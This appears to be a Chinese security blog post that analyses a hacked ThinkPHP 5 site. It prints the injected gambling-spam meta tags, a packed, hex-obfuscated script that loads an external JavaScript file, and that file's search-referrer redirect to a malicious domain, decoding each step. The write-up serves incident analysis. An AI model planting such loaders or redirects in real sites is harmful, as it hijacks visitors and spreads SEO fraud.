 ```yaml
---
date: 2019-08-19 10:17:46
title: 记一次网页 js 挂马
description: 网页挂马一般是向页面中加入恶意代码进行转跳、下载木马病毒等操作。
categories:
  - Pentest
tags:
  - js
---
```


### 0x00 常见网页挂马方式
* iframe 框架挂马  
    简单来说就是加 iframe 标签
* script 挂马  
    通过各种办法加载 js 代码
* htm 文件挂马
    上传 htm 文件，然后用 script 引入
* js 挂马
    上传 js 文件，然后用 script 引入
* 图片伪装挂马
    比较新颖的一种挂马隐蔽方法
* 等等。。。

### 0x01 发现被插入恶意 js
前几天在做子域名搜集，搜集完后提取 title，结果看到了一个站点的 title 不正常

网站是 tp5 的，应该是前段时候 tp5 出现命令执行时被入侵的

查看网页 html 源码发现 title 和 meta 的 description 都被改了
```
<title>&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#24179;&#21488;&#44;&#30495;&#38065;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#44;&#25250;&#24196;&#29275;&#29275;&#25163;&#28216;&#19979;&#36733;</title>
<meta name="keywords" content="&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#24179;&#21488;&#44;&#30495;&#38065;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#44;&#25250;&#24196;&#29275;&#29275;&#25163;&#28216;&#19979;&#36733;"/>
<meta name="description" content="&#25250;&#24196;&#29275;&#29275;&#12304;&#55;&#49;&#49;&#49;&#48;&#46;&#99;&#111;&#109;&#12305;&#29616;&#20844;&#21496;&#25317;&#26377;&#19968;&#25209;&#26377;&#20960;&#21313;&#24180;&#21644;&#22810;&#25250;&#24196;&#29275;&#29275;&#25216;&#24039;&#24180;&#40831;&#36718;&#27979;&#37327;&#20013;&#24515;&#21046;&#36896;&#32463;&#39564;&#30340;&#20154;&#21592;&#44;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#35268;&#21017;&#38598;&#25104;&#20102;&#22269;&#20869;&#39030;&#23574;&#40831;&#36718;&#27979;&#37327;&#25216;&#26415;"/>
```

解码一下
```
<title>抢庄牛牛游戏平台,真钱抢庄牛牛游戏,抢庄牛牛手游下载</title>
<meta name="keywords" content="抢庄牛牛游戏平台,真钱抢庄牛牛游戏,抢庄牛牛手游下载"/>
<meta name="description" content="抢庄牛牛【71110.com】现公司拥有一批有几十年和多抢庄牛牛技巧年齿轮测量中心制造经验的人员,抢庄牛牛游戏规则集成了国内顶尖齿轮测量技术"/>
```

### 0x02 简单分析
紧接着有一段 js 代码
```
<script>if(navigator.userAgent.toLocaleLowerCase().indexOf("baidu") == -1){document.title ="XXXX-首页"}</script>
<script type="text/javascript">eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('m["\\n\\b\\2\\e\\f\\7\\l\\0"]["\\o\\4\\8\\0\\7"](\'\\j\\1\\2\\4\\8\\3\\0 \\0\\k\\3\\7\\d\\6\\0\\7\\p\\0\\5\\h\\c\\t\\c\\1\\2\\4\\8\\3\\0\\6 \\1\\4\\2\\d\\6\\9\\0\\0\\3\\1\\v\\5\\5\\1\\a\\9\\e\\a\\9\\s\\g\\2\\b\\f\\5\\u\\r\\q\\3\\g\\h\\1\\6\\i\\j\\5\\1\\2\\4\\8\\3\\0\\i\');',32,32,'x74|x73|x63|x70|x72|x2f|x22|x65|x69|x68|x66|x6f|x61|x3d|x75|x6d|x2e|x6a|x3e|x3c|x79|x6e|window|x64|x77|x78|x71|x38|x32|x76|x6b|x3a'.split('|'),0,{}))
</script>
```

第一个 script 标签中判断了 UA 中是否有 baidu 这个字符，应该是判断是否为百度爬虫，不是的话就显示正常的 title

第二个 script 标签的 js 被简单加密了
```
(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('m["\\n\\b\\2\\e\\f\\7\\l\\0"]["\\o\\4\\8\\0\\7"](\'\\j\\1\\2\\4\\8\\3\\0 \\0\\k\\3\\7\\d\\6\\0\\7\\p\\0\\5\\h\\c\\t\\c\\1\\2\\4\\8\\3\\0\\6 \\1\\4\\2\\d\\6\\9\\0\\0\\3\\1\\v\\5\\5\\1\\a\\9\\e\\a\\9\\s\\g\\2\\b\\f\\5\\u\\r\\q\\3\\g\\h\\1\\6\\i\\j\\5\\1\\2\\4\\8\\3\\0\\i\');',32,32,'x74|x73|x63|x70|x72|x2f|x22|x65|x69|x68|x66|x6f|x61|x3d|x75|x6d|x2e|x6a|x3e|x3c|x79|x6e|window|x64|x77|x78|x71|x38|x32|x76|x6b|x3a'.split('|'),0,{}))
```

先在 chrome 的 Console 运行后得到
```
"window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x22\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x22 \x73\x72\x63\x3d\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x66\x68\x75\x66\x68\x32\x2e\x63\x6f\x6d\x2f\x6b\x38\x71\x70\x2e\x6a\x73\x22\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');"
```

python 将 16 进制转化为字符串
```
>>> '''window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x22\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x22 \x73\x72\x63\x3d\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x66\x68\x75\x66\x68\x32\x2e\x63\x6f\x6d\x2f\x6b\x38\x71\x70\x2e\x6a\x73\x22\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');'''
window["document"]["write"]('<script type="text/javascript" src="https://sfhufh2.com/k8qp.js"></script>');
```

可以看到上面那段加密的代码作用是引入 k8qp.js 这个 js 文件，而这个文件中有下面这一段 js
```
document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln(
    "if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )"
);
document.writeln("location.href=\"https://71110tz.com/\";");
document.writeln("</script>");
```

判断了 Referer，是 baidu、sogou、soso 之类的话 location.href 跳转到恶意站点 https://71110tz.com/


以上


#### Reference(侵删)：
* [https://www.test404.com/post-655.html?wafcloud=1](https://www.test404.com/post-655.html?wafcloud=1?_blank)
